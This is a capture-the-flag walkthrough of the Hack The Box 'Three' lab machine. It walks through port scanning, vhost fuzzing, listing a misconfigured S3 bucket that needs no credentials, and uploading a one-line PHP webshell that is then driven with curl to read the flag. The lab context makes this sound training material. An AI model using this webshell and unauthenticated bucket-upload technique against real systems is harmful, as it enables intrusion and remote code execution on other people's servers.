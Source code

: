 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Three

## Summary

## Summary

As one of Starting Point's Tier 1 boxes, [Three](https://app.hackthebox.com/starting-point) offers a direct approach to **web fuzzing** and **AWS S3** exploration. By initially **enumerating a domain name** through the webpage and proceeding to fuzz it, we uncover an **S3 bucket**. Further enumeration exposes **misconfigurations** in the S3 bucket, granting us access to its contents and the ability to upload files. Leveraging this vulnerability, we successfully upload a **webshell** and gain control over the `flag.txt` file, ultimately compromising the system.

<table><thead><tr><th width="88" align="right">Step</th><th width="235">Action</th><th width="153">Tool</th><th>Gained</th></tr></thead><tbody><tr><td align="right">1</td><td>Web server enumeration</td><td>Browser</td><td>Domain name</td></tr><tr><td align="right">2</td><td>Fuzzing</td><td><a href="../../../tools/tools/web/dirbusting/gobuster.md">gobuster</a></td><td>S3 bucket</td></tr><tr><td align="right">3</td><td>AWS Enumeration</td><td><a href="../../../tools/tools/web/cloud/aws.md#usage">awscli</a></td><td>Foothold path</td></tr><tr><td align="right">4</td><td>Webshell upload</td><td><a href="../../../tools/tools/web/cloud/aws.md#usage">awscli</a>, <a href="../../../tools/tools/web/curl.md">curl</a>, <a href="../../../tools/tools/text/jq.md">jq</a></td><td>Foothold</td></tr></tbody></table>

## Recon

### Port Scan

Let's start with a port-scan using [Nmap](../../../tools/tools/port-scanners/nmap.md).

```bash
$ sudo nmap -T4 -open -sC -sV 10.129.206.82

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: The Toppers
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are just 2 services listening:

1. An SSH service on port `22`, but we don't have credentials to use it.
2. An Apache web server on port `80` which probably be the focus on this box.

### Web Server Enumeration

By visiting the IP address via our browser we encounter a static site; nothing really works. The only useful thing there is a domain name (`thetoppers.htb`) on the `CONTACT` page (Figure 1).

<figure><img src="../../../.gitbook/assets/three_contact.png" alt=""><figcaption><p>Figure 1: The <code>thetoppers.htb</code> domain on the <code>CONTACT</code> page.</p></figcaption></figure>

Before moving forward, we will add it on our local DNS file (`/etc/hosts`) and we will also check what technologies this site uses.

{% code overflow="wrap" %}
```bash
# Confirming that the domain was added to our local file
$ grep toppers /etc/hosts
10.129.206.82   thetoppers.htb
# Checking the technologies used on the site
$ whatweb thetoppers.htb
http://thetoppers.htb [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], Email[mail@thetoppers.htb], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.129.206.82], Script, Title[The Toppers]
```
{% endcode %}

### Fuzzing

Next, we can start our [fuzzing](../../../tools/tools/web/dirbusting/) scans. We will check for potential subdirectories, subdomains, and vhosts.

{% code overflow="wrap" %}
```bash
# Scanning for subdirectories
gobuster dir -u http://thetoppers.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php
# Scanning for subdomains
gobuster dns -d thetoppers.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -i
# Scanning for virtual hosts
gobuster vhost -u http://thetoppers.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt --append-domain
```
{% endcode %}

The scan for subdirectories comes back with only the homepage (`/index.php`) and an `/images` directory, whereas the vhost scan returns nothing. Luckily, we were able to find out some vhosts (Figure 2).

<figure><img src="../../../.gitbook/assets/three_vhosts.png" alt=""><figcaption><p>Figure 2: Scanning for virtual hosts with <code>gobuster</code>.</p></figcaption></figure>

Before trying to access `s3.thetoppers.htb` we will need to first add it on our `/etc/hosts` file.

```bash
$ grep thetop /etc/hosts
10.129.206.82   thetoppers.htb s3.thetoppers.htb
```

### Foothold

### AWS Enumeration

`S3` is the [Amazon's Simple Storage Service (AWS S3)](https://aws.amazon.com/s3/) and there are specific tools to interact with it, such as [`awscli`](../../../tools/tools/web/cloud/aws.md). Before interacting with an S3 bucket we need to configure our connection, typically, using the AWS Access and Secret keys. However, an S3 bucket can also be misconfigured, i.e., do not check for authentication. If the latter case is true, we can configure it using anything we wish.

After doing that (Figure 3.1), we can proceed on listing the S3 buckets that are available on the server (Figure 3.2), and if we find one, what's in it (Figure 3.3).

```bash
# Configuring AWS connection
$ aws configure
AWS Access Key ID [****************temp]: temp
AWS Secret Access Key [****************temp]: temp
Default region name [temp]: temp
Default output format [temp]: temp

# Listing all s3 server buckets
$ aws --endpoint=http://s3.thetoppers.htb s3 ls
2024-04-29 06:46:43 thetoppers.htb

# Listing all files within the specified s3 bucket
$ aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
                           PRE images/
2024-04-29 06:46:43          0 .htaccess
2024-04-29 06:46:43      11952 index.php
```

<figure><img src="../../../.gitbook/assets/three_aws_listings.png" alt=""><figcaption><p>Figure 3: Configuring and exploring the S3 vhost. </p></figcaption></figure>

We notice that the `s3://thetoppers.htb` bucket contains the `index.php` file and the `images/` directory; the same files we found during our [directory scan](three.md#fuzzing) before. Thus, we can safely infer that this is the webroot (`http://thetoppers.htb`) of the static web site.

### RCE[^1]

Since we know the site's webroot as well as the programming language used (based on the `index.php` file), we can try to create a PHP file (`shell.php`) containing a [PHP webshell](../../../tools/tools/shells/webshells.md#php), upload it on the S3 bucket, and try to interact with it (Figure 4).

```php
<?php system($_GET['cmd']); ?>
```

```bash
# Uploading our web shell to the S3 bucket
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
# Interacting with the web shell
curl http://thetoppers.htb/shell.php?cmd=id
curl http://thetoppers.htb/shell.php?cmd=pwd
```

<figure><img src="../../../.gitbook/assets/three_webshell.png" alt=""><figcaption><p>Figure 4: Uploading the web shell file to S3 and interacting with it. </p></figcaption></figure>

We could continue by uploading a reverse shell script in addition to the web shell, but for the sake of simplicity we won't. In order to find the `flag.txt` file, we will need to explore the host using commands which includes spaces, such as `ls ../` (Figure 5.1).  For achieving that through our webshell, we will need to [URL-encode](../../../tools/tools/crypto.md#url) our commands, in this case use the `+` symbol instead of space (Figure 5.2). We can also use a more "advanced" technique including bash command substitution, `jq` and a pipe (`|`) to pass any command we like "directly" to it (Figure 5.3).

<figure><img src="../../../.gitbook/assets/three_flag.png" alt=""><figcaption><p>Figure 5: Using URL-encoding to find and read the flag.</p></figcaption></figure>

[^1]: Remote Code Execution
